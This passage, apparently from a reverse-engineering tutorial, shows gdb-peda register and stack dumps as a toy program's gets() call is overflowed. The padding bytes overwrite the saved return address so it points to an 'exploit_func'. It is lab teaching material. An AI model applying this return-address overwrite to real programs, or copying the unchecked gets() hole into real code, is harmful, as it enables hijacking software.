        0x400586 <vuln_func+15>:     mov    eax,0x0
        => 0x40058b <vuln_func+20>:     call   0x400450 <gets@plt>
        0x400590 <vuln_func+25>:     lea    rax,[rbp-0x10]   0x400594 <vuln_func+29>:     mov    rdi,rax
        0x400597 <vuln_func+32>:     call   0x400430 <puts@plt>
        0x40059c <vuln_func+37>:     nop
        Guessed arguments:
        arg[0]: 0x7fffffffd8b0 --> 0x0
        [------------------------------------stack-------------------------------------]
        0000| 0x7fffffffd8b0 --> 0x0
        0008| 0x7fffffffd8b8 --> 0x7fffffffd8d0 --> 0x4005d0 (<__libc_csu_init>:        push   r15)
        0016| 0x7fffffffd8c0 --> 0x7fffffffd8d0 --> 0x4005d0 (<__libc_csu_init>:        push   r15)
        0024| 0x7fffffffd8c8 --> 0x4005b7 (<main+24>:   mov    edi,0x400690)
        0032| 0x7fffffffd8d0 --> 0x4005d0 (<__libc_csu_init>:   push   r15)
        0040| 0x7fffffffd8d8 --> 0x7ffff7a2d830 (<__libc_start_main+240>:       mov    edi,eax)
        0048| 0x7fffffffd8e0 --> 0x0
        0056| 0x7fffffffd8e8 --> 0x7fffffffd9b8 --> 0x7fffffffdde4 ("/home/adwi/rev_eng_series/post_8/code1")
        [------------------------------------------------------------------------------]
        Legend: code, data, rodata, value
        
        Breakpoint 1, 0x000000000040058b in vuln_func ()
        gdb-peda$
        

*   Let us go ahead ahead and execute it.
    
        gdb-peda$ ni
                [----------------------------------registers-----------------------------------]
        RAX: 0x7fffffffd8b0 ('a' <repeats 16 times>, "bbbbbbbbf\005@")
        RBX: 0x0
        RCX: 0x7ffff7dd18e0 --> 0xfbad2088
        RDX: 0x7ffff7dd3790 --> 0x0
        RSI: 0x602440 --> 0xa ('\n')
        RDI: 0x7fffffffd8d0 --> 0x400500 (<register_tm_clones+32>:      (bad))
        RBP: 0x7fffffffd8c0 ("bbbbbbbbf\005@")
        RSP: 0x7fffffffd8b0 ('a' <repeats 16 times>, "bbbbbbbbf\005@")
        RIP: 0x400590 (<vuln_func+25>:  lea    rax,[rbp-0x10])
        R8 : 0x602441 --> 0x0
        R9 : 0x0
        R10: 0x57 ('W')
        R11: 0x246
        R12: 0x400470 (<_start>:        xor    ebp,ebp)
        R13: 0x7fffffffd9b0 --> 0x1
        R14: 0x0
        R15: 0x0
        EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)[-------------------------------------code-------------------------------------]
        0x400583 <vuln_func+12>:     mov    rdi,rax
        0x400586 <vuln_func+15>:     mov    eax,0x0
        0x40058b <vuln_func+20>:     call   0x400450 <gets@plt>
        => 0x400590 <vuln_func+25>:     lea    rax,[rbp-0x10]
        0x400594 <vuln_func+29>:     mov    rdi,rax
        0x400597 <vuln_func+32>:     call   0x400430 <puts@plt>
        0x40059c <vuln_func+37>:     nop   0x40059d <vuln_func+38>:     leave
        [------------------------------------stack-------------------------------------]0000| 0x7fffffffd8b0 ('a' <repeats 16 times>, "bbbbbbbbf\005@")
        0008| 0x7fffffffd8b8 ("aaaaaaaabbbbbbbbf\005@")
        0016| 0x7fffffffd8c0 ("bbbbbbbbf\005@")
        0024| 0x7fffffffd8c8 --> 0x400566 (<exploit_func>:      push   rbp)
        0032| 0x7fffffffd8d0 --> 0x400500 (<register_tm_clones+32>:     (bad))
        0040| 0x7fffffffd8d8 --> 0x7ffff7a2d830 (<__libc_start_main+240>:       mov    edi,eax)0048| 0x7fffffffd8e0 --> 0x0
        0056| 0x7fffffffd8e8 --> 0x7fffffffd9b8 --> 0x7fffffffdde4 ("/home/adwi/rev_eng_series/p
        ost_8/code1")
        [------------------------------------------------------------------------------]